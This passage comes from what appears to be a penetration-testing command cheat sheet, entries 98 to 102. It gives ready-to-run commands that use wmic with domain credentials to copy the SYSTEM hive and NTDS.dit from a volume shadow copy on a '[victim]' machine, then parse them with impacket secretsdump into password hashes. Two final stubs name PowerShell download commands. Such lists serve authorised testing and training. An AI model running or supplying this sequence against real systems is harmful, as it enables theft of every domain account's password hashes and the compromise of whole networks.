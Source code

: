 https://technet.microsoft.com/en-us/library/cc754534(v=ws.11).aspx
https://blogs.technet.microsoft.com/askperf/2012/02/17/useful-wmic-queries/
http://bernardodamele.blogspot.co.uk/2011/12/dump-windows-password-hashes.html
__________
### 98. copy system out of a volume shadow copy
```
wmic /node:[victim] /User:[domain]\[user]" /password:[pass] process call create "cmd /c copy \\?\GLOBALROOT\Device\[vsc]\Windows\System32\config\SYSTEM c:\temp\SYSTEM" 2 &1 >> c:\temp\copy_system.txt
```
**- Windows,hashes**
#### References:

https://technet.microsoft.com/en-us/library/cc754534(v=ws.11).aspx
https://blogs.technet.microsoft.com/askperf/2012/02/17/useful-wmic-queries/
http://bernardodamele.blogspot.co.uk/2011/12/dump-windows-password-hashes.html
__________
### 99. copy out ntds from the voulme shadow copy
```
wmic /node:[victim] /User:[domain]\[user]" /password:[pass] process call create "cmd /c copy \\?\GLOBALROOT\Device\[vsc]\NTDS\NTDS.dit c:\temp\ntds.dit" 2 &1 >> c:\temp\copy_ntds.txt
```
**- Windows,hashes**
#### References:

https://technet.microsoft.com/en-us/library/cc754534(v=ws.11).aspx
https://blogs.technet.microsoft.com/askperf/2012/02/17/useful-wmic-queries/
http://bernardodamele.blogspot.co.uk/2011/12/dump-windows-password-hashes.html
__________
### 100. Parse the SYSTEM and ntds with impacket
```
secretsdump.py  -hashes LMHASH:NTHASH -system ../SYSTEM -ntds ../ntds.dit local | tee hashes
```
**- Windows,impacket,hashes**
#### References:

https://www.coresecurity.com/corelabs-research/open-source-tools/impacket
__________
### 101. powershell wget
```
invoke-webrequest
```
**- files,Windows,powershell**
#### References:

https://msdn.microsoft.com/powershell/reference/5.1/microsoft.powershell.utility/Invoke-WebRequest
__________
### 102. also powershell wget
```
wget
```
**- files,Windows,powershell**
#### References:
